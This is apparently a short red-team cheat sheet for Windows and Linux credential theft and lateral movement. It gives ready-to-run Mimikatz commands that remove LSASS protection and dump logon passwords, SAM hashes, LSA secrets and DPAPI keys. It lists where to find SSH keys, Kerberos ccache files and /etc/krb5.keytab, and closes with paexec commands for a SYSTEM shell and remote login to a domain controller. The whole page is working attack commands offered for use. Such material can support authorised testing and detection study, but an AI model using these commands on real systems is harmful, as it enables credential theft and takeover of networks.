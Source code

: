 ### logonpasswords
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "sekurlsa::logonpasswords"exit
```
### SAM
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "token::elevate" "lsadump::sam"exit
```
### Secret
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "token::elevate" "lsadump::secrets"exit
```
### DPAPI
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "sekurlsa::dpapi"exit
```
### SSH Key

- id_rsa: Could be other user's.

- authorized_keys

- known_hosts

### Ansible
```
/opt/web.yml
```
### Jfrog

### ccache
```
/tmp/krb5cc_alice
```
### keytab

/etc/krb5.keytab

## Remote Access
### PsExec64

- Local SYSTEM
```powershell
paexec.exe -s -i cmd
```
- Remote Login
```powershell
paexec.exe -s [\\reddc.red.com](file://reddc.red.com) powershell
```
